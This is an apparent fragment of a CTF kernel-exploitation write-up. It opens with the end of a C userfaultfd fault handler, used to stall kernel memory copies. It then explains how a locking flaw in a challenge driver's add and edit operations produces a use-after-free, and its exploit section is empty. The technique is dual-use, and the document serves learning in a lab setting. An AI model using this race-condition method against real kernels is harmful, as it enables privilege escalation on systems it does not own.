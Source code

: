 ```c
    }
    nready = read(uffd, &msg, sizeof(msg));
    if (nready <= 0)
    {
        Panic("msg err");
    }

    char* page = (char*) mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (page == MAP_FAILED)
    {
        Panic("[-] mmap err");
    }
    struct uffdio_copy uc;
    // init page
    memset(page, 0, sizeof(page));
    uc.src = (unsigned long) page;
    uc.dst = (unsigned long) msg.arg.pagefault.address & ~(PAGE_SIZE - 1);
    uc.len = PAGE_SIZE;
    uc.mode = 0;
    uc.copy = 0;
    ioctl(uffd, UFFDIO_COPY, &uc);
    return NULL;
}
// char *example = mmap(NULL,0x1000,0x6,0x22,-1,0);
// RegisterUserfault(example,userfaultfd_leak_handler);
```

Due to lack understanding of this this exploitation, I only write down the gist of exp and you can get more detailed passage on this [link][2]

# 0x02 Analysis

[attachment][3]

The vulnerability is about the sycronization. Although there are some syncronization mechanisms, there is only `read_lock` in `add` and `edit` so that the size could be rewrite after free. 

1. Assume there are two steps in `add`(A:getsize & B:allocate) and two steps in `edit`(A:getsize & B:reallocate).
2. There are 6 different conditions could happen if these steps happent in different order
3. (1A1B2A2B),(1A2A1B2B),(1A2A2B1B),(reversed ones...)

There is a simple UAF if the steps happen in the following order:
1. edit(0) -> A
2. add(x) ->A & B
3. edit(0) -> B



# 0x03 Exploit


[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://ctf-wiki.org/pwn/linux/kernel-mode/exploitation/userfaultfd/
